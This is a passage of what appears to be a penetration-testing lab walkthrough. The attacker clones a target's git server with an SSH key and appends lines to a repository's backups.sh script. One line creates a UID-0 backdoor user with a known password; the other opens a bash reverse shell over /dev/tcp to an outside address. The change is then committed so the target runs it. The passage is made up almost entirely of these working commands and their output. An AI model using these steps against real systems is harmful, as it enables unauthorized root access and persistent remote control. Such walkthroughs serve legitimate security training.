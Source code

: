 ```bash
cd exploits
git config --global user.name "victor"
git config --global user.email "victor@pwn.edu"
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git clone git@192.168.201.125:/git-server

# output
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
```

```bash
ls -al ./git-server 

# output
total 20
drwxr-xr-x 3 victor victor 4096 Aug 18 22:22 .
drwxr-xr-x 3 victor victor 4096 Aug 18 22:21 ..
-rw-r--r-- 1 victor victor  121 Aug 18 22:23 backups.sh # <--- not executable...yet
drwxr-xr-x 8 victor victor 4096 Aug 18 22:21 .git
-rw-r--r-- 1 victor victor    0 Aug 18 22:21 NEW_CHANGE
-rw-r--r-- 1 victor victor   63 Aug 18 22:21 README
```

```bash
cat ./git-server/backups.sh

# output
#!/bin/bash
#
#
# # Placeholder
#
```

```bash
cd git-server
echo "useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor" >> backups.sh
echo "/bin/bash -i >& /dev/tcp/192.168.49.201/43022 0>&1" >> backups.sh
chmod +x backups.sh
```

```bash
git add -A
git commit -m "Updated backups.sh"

# output
[master 198b499] Updated backups.sh
 1 file changed, 1 insertion(+)
```
